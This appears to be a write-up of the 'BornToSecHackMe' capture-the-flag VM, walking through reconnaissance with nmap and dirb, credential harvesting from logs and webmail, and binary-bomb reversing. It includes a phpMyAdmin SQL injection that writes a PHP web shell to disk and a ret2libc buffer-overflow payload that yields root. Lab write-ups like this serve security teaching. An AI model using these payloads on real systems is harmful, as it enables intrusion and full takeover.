





# 1 - Find the VM IP address

```
➜  ~ ifconfig

vboxnet0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.56.1  netmask 255.255.255.0  broadcast 192.168.56.255
        inet6 fe80::800:27ff:fe00:0  prefixlen 64  scopeid 0x20<link>
        ether 0a:00:27:00:00:00  txqueuelen 1000  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1468  bytes 300542 (300.5 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

```

-> VirtualBox ip address is 192.168.56.1, with a /24 submask.
Let's use nmap to see what hosts are available on this network.
```
┌──(kali㉿kali)-[~]
└─$ nmap 192.168.56.0-255
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-15 09:11 EST
Nmap scan report for e3r13p6.clusters.42paris.fr (192.168.56.1)
Host is up (0.0021s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
111/tcp   open  rpcbind
2049/tcp  open  nfs
5900/tcp  open  vnc
9100/tcp  open  jetdirect
34571/tcp open  unknown

Nmap scan report for 192.168.56.105
Host is up (0.0023s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps

Nmap done: 256 IP addresses (2 hosts up) scanned in 2.81 seconds
```  
-> We know that virtualbox is running on 192.168.56.1, so the VM is running on 192.168.56.105.

-> we see that there are 2 http ports.

# 2 - Find the directories of the website

Let's run dirb to see what urls exist.

```
┌──(kali㉿kali)-[~]
└─$ dirb http://192.168.56.105 -rSwN 403 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Nov 15 11:03:23 2022
URL_BASE: http://192.168.56.105/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Ignoring NOT_FOUND code -> 403
OPTION: Not Recursive
OPTION: Silent Mode
OPTION: Not Stopping on warning messages

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://192.168.56.105/ ----
==> DIRECTORY: http://192.168.56.105/fonts/
+ http://192.168.56.105/index.html (CODE:200|SIZE:1025)

-----------------
END_TIME: Tue Nov 15 11:03:25 2022
DOWNLOADED: 4612 - FOUND: 1

===============================

┌──(kali㉿kali)-[~]
└─$ dirb https://192.168.56.105 -rSwN 403

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Nov 15 10:50:46 2022
URL_BASE: https://192.168.56.105/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Ignoring NOT_FOUND code -> 403
OPTION: Not Recursive
OPTION: Silent Mode
OPTION: Not Stopping on warning messages

-----------------

GENERATED WORDS: 4612

---- Scanning URL: https://192.168.56.105/ ----
==> DIRECTORY: https://192.168.56.105/forum/
==> DIRECTORY: https://192.168.56.105/phpmyadmin/
==> DIRECTORY: https://192.168.56.105/webmail/

-----------------
END_TIME: Tue Nov 15 10:50:48 2022
DOWNLOADED: 4612 - FOUND: 0

```

# 3 - /forum

Let's check the forum url:
- we see 6 users, admin, lmezard, qudevide, zaz, wandre and thor.
- There is a log file, where we can see different login attempts. One is successful, and we can see the password:  
```
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Received disconnect from 161.202.39.38: 3: com.jcraft.jsch.JSchException: Auth fail [preauth]
Oct 5 08:46:01 BornToSecHackMe CRON[7549]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)
```

-> login : `lmezard`
password: `!q\]Ej?*5K5cy*AJ`

When we log in with these credentials, we find her email address: `laurie@borntosec.net`

# 4 - /webmail

We can use the same credentials to log into her email account.  
We can find the root credentials for phpmyadmin in one of her emails.  

```
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```

# 5 - /phpmyadmin

On the SQL Tab, we can inject some sql code.  
// https://www.hackingarticles.in/shell-uploading-web-server-phpmyadmin/  

By injecting `SELECT "<?php system($_GET['cmd']);?>" into outfile "/var/www/forum/templates_c/fichier.php"`, we can create a command shell vulnerability inside the web server.  
System() executes an external program and display the output on the php page.  
By doing some `ls` we find an interesting path, which displays another pair of credentials.  
```
https://192.168.56.105/forum/templates_c/fichier.php?cmd=cat%20/home/LOOKATME/password
lmezard:G!@M6f4Eatau{sF"
```
-> We can log into the VM with these credentials.  

# lmezard

There are 2 files at the root, one README and one tar archive called fun.  
`tar -xf fun` -> we get a folder `ft_fun`, which contains 753 pcap files.  
Inside the pcap files, we have some `printf("Hahahaha Got you!!!\n");`.  

Let's grep the printf that doesn't contain the word 'Got'  
`cat fun | grep printf | grep -v Got`  
  

We see 12 `getmeX()` functions.  
By doing a `grep "" *.pcap | grep getmeX`, by replacing X with each getme function number we want, we get the name of a file, with the begining of a function.  
  

By doing a `cat` on the file, we see a comment with the name of another file (file5):  
  

By doing a `cat` on the file following this file (file5, that contains the begining of the function), we get the rest of the getme() function.  
  

-> By doing that with all the getmeX() functions, we get the password: `Iheartpwnage`.  

  

SHA256 on it to get Laurie's password: `330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`

# laurie

By logging into laurie through ssh, we have a README and a bomb executable.  

```
firefart@BornToSecHackMe:/home/laurie# cat README 
Diffuse this bomb!
When you have all the password use it as "thor" user with ssh.

HINT:
P
 2
 b

o
4

NO SPACE IN THE PASSWORD (password is case sensitive).


firefart@BornToSecHackMe:/home/laurie# ./bomb 
Welcome this is my little bomb !!!! You have 6 stages with
only one life good luck !! Have a nice day!
```

Let's reverse this binary with ghidra.  

## phase_1

The function is comparing the input with `Public speaking is very easy.`  

## phase_2

The function needs 6 numbers, with the first one being `1`.  
It is then doing some calculation.  
```
  i = 1;
  do {
    if (buf[i + 1] != (i + 1) * buf[i]) {
      explode_bomb();
    }
    i = i + 1;
  } while (i < 6);
```
The solution is `1 2 6 24 120 720`.  

## phase_3

This function is expecting 3 characters ("%d %c %d"), with a switch case.  
There are several possibilities, but according to the README hints, the second character should be `b`.  
There are 3 possibilities:  
- 1b214
- 2b755
- 7b524

## phase_4

This is a recursive function, the solution is `9`.  

## phase_5

We have a string `isrveawhobpnutfg`.
We need to find a string of 6 characters, where when we take the low bits of each letter, it corresponds to the binary of the index in the string to form the word `giants`

```
void phase_5(char *line)
{
    int len = string_length(line);
    if (len != 6) {
        explode_bomb();
    }
    i = 0;
    char *string = "isrveawhobpnutfg"
    while (i != 5) {
        line[i] = string[line[i] & 0xf];
        i++;
    }
    if (strings_not_equal(line, "giants") != 0) {
        explode_bomb();
    }
    return;
}
```

<table>
    <thead>
        <tr>
            <th>char</th>
            <th>index</th>
            <th>index in binary</th>
            <th colspan="2">chars which low bits match the index in binary</th>
        </tr>
    </thead>
    <tbody>
        <tr>
            <td style="text-align: center">g</td>
            <td style="text-align: center">15</td>
            <td style="text-align: center">1111</td>
            <td style="text-align: center">o</td>
            <td style="text-align: center"></td>
        </tr>
        <tr>
            <td style="text-align: center">i</td>
            <td style="text-align: center">0</td>
            <td style="text-align: center">0000</td>
            <td style="text-align: center">p</td>
            <td style="text-align: center"></td>
        </tr>
        <tr>
            <td style="text-align: center">a</td>
            <td style="text-align: center">5</td>
            <td style="text-align: center">0101</td>
            <td style="text-align: center">e</td>
            <td style="text-align: center">u</td>
        </tr>
        <tr>
            <td style="text-align: center">n</td>
            <td style="text-align: center">11</td>
            <td style="text-align: center">1011</td>
            <td style="text-align: center">k</td>
            <td style="text-align: center"></td>
        </tr>
        <tr>
            <td style="text-align: center">t</td>
            <td style="text-align: center">13</td>
            <td style="text-align: center">1101</td>
            <td style="text-align: center">m</td>
            <td style="text-align: center"></td>
        </tr>
        <tr>
            <td style="text-align: center">s</td>
            <td style="text-align: center">1</td>
            <td style="text-align: center">0001</td>
            <td style="text-align: center">a</td>
            <td style="text-align: center">q</td>
        </tr>
    </tbody>
</table>

-> Here again, there are several possibilities, `opekmq`, `opekma`, `opukma` and `opukmq`.  

```
abcdefghijklmnopqrstuvwxyz
-> in binary
01100001 01100010 01100011 01100100 01100101 01100110 01100111 01101000 01101001 01101010 01101011 01101100 01101101 01101110 01101111 01110000 01110001 01110010 01110011 01110100 01110101 01110110 01110111 01111000 01111001 01111010
```

## phase_6

There are 6 linked nodes in this function.  
The hint says that it starts with `4`.  
It is comparing the value of each node and sorts them in descending order.  

```
node4 = 997
node2 = 725
node6 = 432
node3 = 301
node1 = 253
node5 = 212
```

The solution is `4 2 6 3 1 5`.  

# thor password

This is a combination of the solution of all 6 phases, with no spaces:  
`Publicspeakingisveryeasy.126241207201b2149opekmq426135`.

For some error in the project, we have to switch n-1 with n-2, so we have 426135 instead of 426315.  


# thor

In thor's home, there is a readme and a text file called turtle, with some instructions in it.  
```
thor@BornToSecHackMe:/home/thor# cat README 
Finish this challenge and use the result as password for 'zaz' user.

thor@BornToSecHackMe:/home/thor# cat turtle 
Tourne gauche de 90 degrees
Avance 50 spaces
Avance 1 spaces
Tourne gauche de 1 degrees
Avance 1 spaces
Tourne gauche de 1 degrees
Avance 1 spaces
Tourne gauche de 1 degrees
Avance 1 spaces
Tourne gauche de 1 degrees
Avance 1 spaces
Tourne gauche de 1 degrees
Avance 1 spaces
Tourne gauche de 1 degrees
Avance 1 spaces
Tourne gauche de 1 degrees
Avance 1 spaces
Tourne gauche de 1 degrees
[...]
Can you digest the message? :)
```  

When translated into turtle code, it is actually drawing something.  


-> we get the word `SLASH`.  

"digest message" -> MD5  
MD5 on `SLASH` to get zaz's password: `646da671ca01bb5d84dbb5fb2238dc8e`  

# zaz

We have an executable called `exploit_me`.  
```
(gdb) disas main
Dump of assembler code for function main:
   0x080483f4 <+0>:	push   %ebp
   0x080483f5 <+1>:	mov    %esp,%ebp
   0x080483f7 <+3>:	and    $0xfffffff0,%esp
   0x080483fa <+6>:	sub    $0x90,%esp
   0x08048400 <+12>:	cmpl   $0x1,0x8(%ebp)
   0x08048404 <+16>:	jg     0x804840d <main+25>
   0x08048406 <+18>:	mov    $0x1,%eax
   0x0804840b <+23>:	jmp    0x8048436 <main+66>
   0x0804840d <+25>:	mov    0xc(%ebp),%eax
   0x08048410 <+28>:	add    $0x4,%eax
   0x08048413 <+31>:	mov    (%eax),%eax
   0x08048415 <+33>:	mov    %eax,0x4(%esp)
   0x08048419 <+37>:	lea    0x10(%esp),%eax
   0x0804841d <+41>:	mov    %eax,(%esp)
   0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
   0x08048425 <+49>:	lea    0x10(%esp),%eax
   0x08048429 <+53>:	mov    %eax,(%esp)
   0x0804842c <+56>:	call   0x8048310 <puts@plt>
   0x08048431 <+61>:	mov    $0x0,%eax
   0x08048436 <+66>:	leave  
   0x08048437 <+67>:	ret    
End of assembler dump.
```

The program is taking one argument, and does a puts of it.  
```
# ./exploit_me hello
hello
```

## Finding the offset

With the pattern generator, we find an offset of 140  
```
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Starting program: /home/zaz/exploit_me Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x37654136 in ?? ()
```

## ret2libc

-> As the strcpy() function is not protected, we can do a buffer overflow, with a ret2libc.  

```
Address of system:
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>

Address of /bin/sh:
(gdb) find &system,+9999999,"/bin/sh"
0xb7f8cc58
warning: Unable to access target memory at 0xb7fd3160, halting search.
1 pattern found.
```

## payload

We can now build the payload:  
`./exploit_me $(python -c 'print "A" * 140 + "\x60\xb0\xe6\xb7" + "\xde\xad\xbe\xef" + "\x58\xcc\xf8\xb7"')`

-> We are now root !  


